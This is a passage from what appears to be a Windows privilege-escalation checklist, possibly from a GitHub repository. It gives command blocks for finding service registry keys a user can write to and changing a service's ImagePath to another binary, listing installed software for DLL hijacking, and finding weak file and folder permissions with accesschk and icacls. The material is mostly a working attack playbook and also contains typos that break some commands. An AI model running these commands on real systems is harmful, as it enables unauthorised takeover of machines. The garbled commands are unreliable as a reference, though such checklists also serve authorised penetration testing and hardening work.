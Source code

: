 		#Try to write every service with its current content (to check if you have write permissions)
		for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

		get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

		# if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl
		# it can be leveraged to change the binary path inside the registry
		reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
		```
- [ ] Installed applications
	- [ ] DLL Hijacking for installed applications
		```powershell
		dir /a "C:\Program Files"
		dir /a "C:\Program Files (x86)"
		reg query HKEY_LOCAL_MACHINE\SOFTWARE

		Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
		Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
		```
	- [ ] Write permissions
		```powershell
		# using accesschk.exe
		accesschk.exe /accepteula
		
		# Find all weak folder permissions per drive.
		accesschk.exe -uwdqs Users c:\
		accesschk.exe -uwdqs "Authenticated Users" c:\
		accesschk.exe -uwdqs "Everyone" c:\
		
		# Find all weak file permissions per drive.
		accesschk.exe -uwqs Users c:\*.*
		accesschk.exe -uwqs "Authenticated Users" c:\*.*
		accesschk.exe -uwdqs "Everyone" c:\*.*
		
		# using icalcs
		icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
		icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"
		